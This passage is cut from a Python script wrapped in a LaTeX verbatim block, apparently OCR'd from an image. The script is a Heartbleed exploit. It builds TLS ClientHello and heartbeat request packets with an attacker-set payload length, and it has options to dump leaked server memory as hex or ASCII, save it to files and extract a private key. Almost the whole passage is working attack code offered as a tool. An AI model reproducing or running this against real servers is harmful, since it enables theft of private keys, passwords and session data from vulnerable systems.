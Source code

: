 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
# Extension: Heartbeat
0x00, 0x0f, 0x00, 0x01, 0x01
    ]
    return client_hello

def build_heartbeat(tls_ver):
    heartbeat = [
0x18,       # Content Type (Heartbeat)
0x03, tls_ver,  # TLS version
0x00, 0x29,  # Length

# Payload
0x01,       # Type (Request)
opts.len/256, opts.len%256,  # Payload length
0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,
0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,
0x41, 0x41, 0x41, 0x41, 0x41, 0x42, 0x43, 0x44,
0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,
0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,
0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,
0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,
0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,
0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,
0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,
0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,
0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,
0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,
0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,
0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44,
0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
0x4D, 0x4E, 0x4F, 0x41, 0x42, 0x43, 0x44, 0x45,
0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D,
0x4E, 0x4F
    ] 
    return heartbeat

if opts.rawoutfile:
    rawfileOUT = open(opts.rawoutfile, "a")

if opts.asciioutfile:
    asciifileOUT = open(opts.asciioutfile, "a")

if opts.extractkey:
    opts.donotdisplay = True

def hexdump(s):
    pdat = ''
    hexd = ''
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        if opts.hexdump:
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            hexd += '  %04x: %-48s %s\n' % (b, hxdat, pdat)
        else:
            pdat += ''.join((c if ((32 <= ord(c) <= 126) or (ord(c) == 10) or (ord(c) == 13)) else '.' )for c in lin)

    if opts.hexdump:
	    return hexd

    else:
        pdat = re.sub(r'([.]{50,})', '', pdat)
        if opts.asciioutfile:
            asciifileOUT.write(pdat)
        return pdat




\end{verbatim}
\end{document}
